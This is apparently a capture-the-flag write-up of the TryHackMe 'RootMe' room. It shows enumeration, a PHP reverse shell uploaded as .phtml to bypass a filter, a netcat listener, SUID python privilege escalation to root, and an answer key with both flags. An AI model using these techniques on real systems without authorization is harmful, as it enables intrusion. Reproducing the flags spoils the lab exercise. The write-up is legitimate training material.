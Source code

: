 # ROOT-ME | TryHackMe Room
![0](./images/0.png)
This write-up covers the completion of the ROOT-ME room on TryHackMe. Before starting this room, it was necessary to complete the OpenVPN room first as the task 1 says to complete the OpenVPN room.
![1](./images/1.png)


# **OpenVPN Setup**
1. Completed the OpenVPN room: [https://tryhackme.com/room/openvpn](https://tryhackme.com/room/openvpn)
2. Launched the machine and copied the IP address
      ![2](./images/2.png)

3. Connected to VPN using:
   ```bash
   sudo openvpn [filename.ovpn]

4. After visitng the Ip of the machine.
      ![4](./images/4.png)

5. We completed the OpenVPN room.
      ![3](./images/3.png)



# **ROOT ME Room**
## Initial Setup
- Started the machine and deployed it
- Ran initial nmap scan as root:
`nmap -Pn [IP]`
   ![5](./images/5.png)
Found open ports: 22 and 80


## Directory Enumeration with Gobuster
- First I visited the web running at port 80
     ![8](./images/8.png)
- Ran directory enumeration:
`gobuster dir -u [IP] -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt`

   ![7](./images/7.png)
   Found /panel directory     



## File Upload Exploitation
- Discovered /panel allowed file uploads and I tried a dumy PHP file upload but it failed
   ![9](./images/9.png)

- Prepared a PHP reverse shell:

`cp /usr/share/webshells/php/php-reverse-shell.php ~/[new filename].php`

- Modified local IP to VPN IP and changed ports
   ![10](./images/10.png)

- Renamed file extension from .php to .phtml and then uplaoded to browser
   ![11](./images/11.png)


## Gaining User Access
- Set up listener:
`nc -lnvp [port number]`
- After this I accessed the uploaded file to trigger the reverse shell
   ![12](./images/12.png)

- Spawned interactive shell:
`python -c 'import pty;pty.spawn("/bin/bash")'`
- I found user flag:
`find / -type f -name user.txt 2>/dev/null`
- And then I retierved the flag
`cat /var/www/user.txt`
   ![13](./images/13.png)


## Privilege Escalation to Root
- Found SUID binaries:
`find / -user root -perm /4000`
  ![14](./images/14.png)
  Identified /usr/bin/python as potential vector

- I tried to get root shell using python shell:

`python -c 'import os; os.execl("/bin/sh", "sh", "-p")'`

- After getting the root shell, I retrieved root flag:
`cat /root/root.txt`
  ![15](./images/15.png)


# **Answers:**
**Task 1**: Deploy the machine
1. Deploy the machine

   `No Answer`

**Task 2**: Reconnaissance
1. Scan the machine, how many ports are open? 

   `2`
2. What version of Apache is running?

   `2.4.29`
3. What service is running on port 22?

   `ssh`
5. Find directories on the web server using the GoBuster tool.

   `No answer`
6. What is the hidden directory?

   `/panel/`

**Task 3**: Getting a shell
1. Find a form to upload and get a reverse shell, and find the flag.

   user.txt

   `THM{y0u_g0t_a_sh3ll}`


**Task 4**: Privilege escalation
Escalate our privileges to root.

1. Search for files with SUID permission, which file is weird?

   `/usr/bin/python`

2. Find a form to escalate your privileges.

   `No answer`

3. root.txt

   `THM{pr1v1l3g3_3sc4l4t10n}`







